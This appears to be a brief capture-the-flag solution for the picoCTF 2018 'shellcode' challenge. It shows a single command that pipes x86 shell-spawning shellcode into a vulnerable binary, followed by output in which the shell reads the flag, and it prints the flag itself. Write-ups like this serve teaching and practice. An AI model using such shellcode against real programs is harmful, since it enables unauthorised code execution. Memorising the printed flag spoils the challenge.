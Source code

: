 # shellcode

```
pico-2018-shell:/problems/shellcode_3_09e0c5074980877d900d65c545d1e127$ (echo -e "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";cat -) | ./vuln
Enter a string!
### binary output ###

Thanks! Executing now...

cat flag.txt
picoCTF{shellc0de_w00h00_7f5a7309}
```

Flag: `picoCTF{shellc0de_w00h00_7f5a7309}`